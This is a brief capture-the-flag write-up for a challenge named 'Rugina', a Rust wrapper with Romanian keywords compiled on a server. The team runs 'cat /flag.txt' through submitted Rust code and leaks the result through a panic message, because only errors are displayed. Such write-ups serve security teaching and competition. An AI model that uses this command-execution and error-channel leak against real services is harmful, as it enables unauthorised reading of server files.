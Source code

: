 rugina

Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you.

- On this one we check the rugina repository on github, but we saw is a wrapper for Rust. In that case we tried some normal rust code which we found out that worked.

- First you need to add the function Principal for the compiler to work.

```rust
principal() {

}
```

- After we manage to create some code that worked, but we saw that wasn't printing anything

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    scrie!("{}", output_str.trim());
}
```
- We analyze the repository again to check if we made some mistakes, but we didn't. Some time passed and one of us pointed out that "only the errors are shown and not the normal print". In that case we changed from a normal println to panic and in that moment worked.

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    panic!("{}", output_str.trim());
}
```

- And this is how we got the flag out
